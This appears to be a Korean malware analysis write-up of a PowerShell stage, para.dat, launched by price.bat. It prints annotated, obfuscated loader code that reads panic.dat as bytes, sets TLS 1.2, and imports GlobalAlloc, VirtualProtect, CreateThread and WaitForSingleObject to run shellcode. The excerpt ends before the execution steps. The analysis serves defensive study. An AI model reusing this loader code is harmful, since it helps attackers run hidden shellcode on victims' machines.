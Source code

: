 
### ▪ <u>para.dat 분석</u>

**price.bat** 파일에 의해 실행되는 **para.dat** 파일은 스레드를 생성하여 악성  Shellcode 를 실행합니다.



#### 1. panic.dat 데이터 획득

```powershell
# panic.dat 파일 경로 획득
$exePath=$env:public+'\'+'panic.dat';

# 내부 데이터를 획득
$exeFile = Get-Content -path $exePath -encoding byte;
```



#### 2. SecurityProtocol 속성을 TLS 1.2로 설정

```powershell
# SecurityProtocol 속성을 TLS 1.2로 설정
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
```



#### 3. kernel32 API 획득

```powershell
# "kernel32.dll"
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);

# GlobalAlloc 획득
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';

# GlobalAlloc를 사용하기 위한 클래스 정의
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;

# VirtualProtect 획득
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';

# VirtualProtect를 사용하기 위한 클래스 정의
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;

# CreateThread 획득
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';

# CreateThread를 사용하기 위한 클래스 정의
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;

# WaitForSingleObject 획득
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';

# WaitForSingleObject를 사용하기 위한 클래스 정의
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
```
